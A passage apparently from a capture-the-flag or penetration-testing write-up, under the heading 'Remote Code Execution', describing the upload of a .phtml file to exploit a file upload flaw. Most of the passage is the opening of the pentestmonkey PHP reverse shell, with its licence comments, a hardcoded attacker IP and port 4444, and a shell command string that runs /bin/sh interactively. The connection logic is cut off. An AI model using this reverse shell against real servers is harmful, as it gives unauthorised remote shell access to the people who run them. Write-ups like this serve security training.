 ### Remote Code Execution

To get a shell access we create the following php-reverse-shell.phtml file to exploit the file upload vulnerability:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.30.161';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```